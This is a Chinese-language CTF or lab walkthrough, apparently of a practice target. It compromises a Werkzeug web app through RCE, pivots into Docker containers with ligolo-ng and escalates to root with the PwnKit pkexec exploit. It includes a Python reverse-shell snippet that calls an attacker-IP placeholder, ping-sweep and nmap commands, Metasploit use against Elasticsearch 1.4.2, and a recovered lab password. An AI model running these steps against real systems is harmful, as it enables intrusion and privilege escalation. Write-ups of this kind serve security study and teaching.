## 找目标



目标ip

```
10.46.13.75
```

## namp扫描

```bash
neon@overflow ~> sudo arp-scan -l
[sudo] password for neon: 
Interface: wlo1, type: EN10MB, MAC: 24:b2:b9:c4:8f:1b, IPv4: 10.46.13.253
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.46.13.75    24:b2:b9:c4:8f:1b    (Unknown)
10.46.13.112    6e:36:4d:70:43:95    (Unknown: locally administered)

2 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.978 seconds (129.42 hosts/sec). 2 responded
neon@overflow ~> nmap -Pn -sC -sV -T4 10.46.13.75
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-28 21:16 +0800
Nmap scan report for 10.46.13.75
Host is up (0.00048s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 cc:53:20:b8:10:db:52:5f:16:02:bc:ee:57:22:80:e1 (DSA)
|   2048 01:50:f6:1f:32:e8:0d:fc:48:38:3e:c8:1b:ac:20:02 (RSA)
|   256 3b:ae:9a:bd:cb:ff:8f:54:64:32:ec:bf:38:fd:fe:6b (ECDSA)
|_  256 77:4e:8b:20:73:52:a4:ee:93:1d:b3:85:f2:25:d7:55 (ED25519)
53/tcp   open  domain  (generic dns response: NOTIMP)
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
|_http-title: Leave a message
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.99%I=7%D=6/28%Time=6A411EA6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x85\x84\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.19 seconds
```

##### 发现5000端口能用，访问10.46.13.75:5000



#### 同时开始扫目录

##### 这里的表单没有sql注入

```bash
gobuster dir -u http://10.46.13.75:5000 -w ~/Desktop/common.txt
```



###### 只扫出一个目录，去看看



##### 发现可以RCE,因为是python环境，所以写个python 的反弹shell

```python
import os,pty,socket
s=socket.socket()
s.connect(("攻击者ip",端口))
[os.dup2(s.fileno(),f) for f in (0,1,2)]
pty.spawn("/bin/sh")
```

###### 后面发现靶机只有sh ，没有bash，收不到就换一个尝试

#### 收到shell后,升级成交互的shell,可以上下左右移动光标，查历史命令和自动补全

### 用python给靶机开个tty

bash

```bash
python -c 'import pty;pty.spawn("/bin/sh")'
```

#### **Ctrl+Z 挂起，挂起 nc，回到攻击机操作**

###### 攻击机执行,攻击机终端设为原始模式，键盘输入与输出不在本地回显，传送给目标的tty

bash

```bash
stty raw -echo; fg
```

###### 回到目标执行

```bash
export TERM=xterm
```

进入后发现直接是root,猜测是在container里

```
/app # whoami
root
/app # ls
Dockerfile        main.py           requirements.txt  templates
```

验证是否在container里

```bash
cat /proc/1/cgroup 
```

#### 输出

```
11:hugetlb:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
10:perf_event:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
9:blkio:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
8:freezer:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
7:devices:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
6:memory:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
5:cpuacct:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
4:cpu:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
3:cpuset:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
2:name=systemd:/docker/86b42857201d830d4c5792a68fa90520b96f7aa4b1fafec64eebae3c8094765f
```

#### 是个docker容器

## 直接做内网穿透把攻击机和工具拉进来做内网扫描

##### 去github下载内网穿透工具，攻击机下载proxy端

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
```

###### 解包后启动

```bash
sudo ./proxy --selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8

ligolo-ng » 
```

### 目标要下载agent端，在目标上执行

```
wget wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
```

#### 也可以在攻击机下载好后，在该下载的目录用python3开个网站服务，然后在目标从攻击机下载agent端，这样速度会很快,因为国内直连github有时会抽风，目标没有代理，下载很慢

攻击机开网站服务：



#### 

#### 没有wget 先看发行版



### 是alpine,使用apk add 命令下载wget，也是国外的镜像，可能网络也会抽风，下载很慢，可以改个国内的镜像源

```bash
apk add wget
```

#### 目标从攻击机下载agent端



### 解包后在目标用客户端agent连上proxy服务端

```bash

~ # ./agent -connect 10.46.13.253:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.46.13.253:11601"
```

#### 连上了

#### 在proxy端选择该会话



##### 

##### 然后创建网卡并且开启隧道



### 去攻击机终端用ip a可以查看该网卡



### 攻击机重新起一个终端ping容器内网的宿主机

先看容器宿主机ip

```
在目标上用 ip route 可以看到网关，那个就是宿主机
```

ping 容器的宿主机



## 通了，成功内网穿透

#### 可以用namp扫内网了，不过网段是172.0.0.0/16有65534个主机，用nmap扫网段会很慢，所以用for循环+ping来扫前254个机子

```bash
for i in {1..254}; do (ping -c1 -W1 172.17.0.i.$i && echo 172.17.0.$i)& done; wait
```

##### 也可以用namp扫该网段前254个机子，但是没有上面的循环扫快,因为nmap的sn参数会发送一个SYN包和ICMP包，并且默认等待一秒，没有收到回包才算超时,其实也不会慢多少啦，哈哈

```bash
nmap -sn 172.17.0.1-254
```



##### 发现有3个主机是存活的

分别172.17.0.1 172.17.0.2 172.17.0.3

### 扫172.17.0.2



### 这个docker的5000端口下的服务可以用美少妇msf来梭哈

```
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
```

### 扫172.17.0.3

```bash
nmap -Pn -sC -sV -T4 172.17.0.3
```

### 发现9200端口有个服务Elasticsearch 1.4.2

#### 直接用msfconsole来打，这里用msf的过程就不写了

## 然后得到172.17.0.3这个docker的shell，这个容器里面的家目录有个passwords文件，是宿主机的用户密码

joho密码:1337hack

```bash
ssh joho@宿主机ip
```

### 有时候是可能靶机的问题172.17.0.3这个docker会扫不到，可以打172.17.0.2这个的5000端口

### 进入后找SUID程序提权## 

## 发现pkexec

## 看版本

## 该版本有漏洞

## 直接用独立免编译 PwnKit

### 该脚本自带所有依赖

```bash
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
```



#### 下载完后上给脚本上x权限

```bash
chmod +x PwnKit
```

##### 执行完后直接获得root



###### 可以看一下宿主机的docker网卡






### 不知道为啥172.17.0.3这个容器为啥关了

之前还是开的,重开靶机就没了
